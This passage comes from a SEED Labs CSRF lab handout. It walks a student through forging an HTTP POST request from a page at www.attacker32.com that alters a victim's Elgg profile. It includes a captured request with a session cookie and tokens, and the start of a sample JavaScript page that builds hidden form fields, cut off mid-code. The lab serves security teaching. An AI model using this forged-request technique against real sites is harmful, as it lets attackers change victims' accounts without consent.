 After adding himself to Alice's friend list, Samy wants to do something more. He wants Alice to say "Samy is my Hero" in her profile, so everybody knows about that. Alice does not like Samy, let alone putting that statement in her profile. Samy plans to use a CSRF attack to achieve that goal. That is the purpose of this task.

One way to do the attack is to post a message to Alice's Elgg account, hoping that Alice will click the URL inside the message. This URL will lead Alice to your (i.e., Samy's) malicious website `www.attacker32.com`, where you can launch the CSRF attack.

The objective of your attack is to modify the victim's profile. In particular, the attacker needs to forge a request to modify the profile information of the victim user of Elgg. Allowing users to modify their profiles is a feature of Elgg. If users want to modify their profiles, they go to the profile page of Elgg, fill out a form, and then submit the form---sending a POST request---to the server-side script `/profile/edit.php`, which processes the request and does the profile modification.

The server-side script `edit.php` accepts both GET and POST requests, so you can use the same trick as that in Task 1 to achieve the attack. However, in this task, you are required to use the POST request. Namely, attackers (you) need to forge an HTTP POST request from the victim's browser, when the victim is visiting their malicious site. Attackers need to know the structure of such a request. You can observe the structure of the request, i.e., the parameters of the request, by making some modifications to the profile and monitoring the request using the `"HTTP Header Live"` tool. You may see something similar to the following. Unlike HTTP `GET` requests, which append parameters to the URL strings, the parameters of HTTP `POST` requests are included in the HTTP message body (see the contents between the two symbols):

```text
http://www.seed-server.com/action/profile/edit

POST /action/profile/edit HTTP/1.1
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:23.0) ...
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.seed-server.com/profile/elgguser1/edit
Cookie: Elgg=p0dci8baqrl4i2ipv2mio3po05
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 642
__elgg_token=fc98784a9fbd02b68682bbb0e75b428b&__elgg_ts=1403464813  (*@\ding{80}@*)
&name=elgguser1&description=%3Cp%3Iamelgguser1%3C%2Fp%3E
&accesslevel%5Bdescription%5D=2&briefdescription= Iamelgguser1
&accesslevel%5Bbriefdescription%5D=2&location=US
......                                                              (*@\ding{80}@*)
```

After understanding the structure of the request, you need to be able to generate the request from your attacking web page using JavaScript code. To help you write such a JavaScript program, we provide a sample code in the following code fence. You can use this sample code to construct your malicious web site for the CSRF attacks. This is only a sample code, and you need to modify it to make it work for your attack.

```html
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>
<script type="text/javascript">

function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='****'>";
    fields += "<input type='hidden' name='briefdescription' value='****'>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]'
```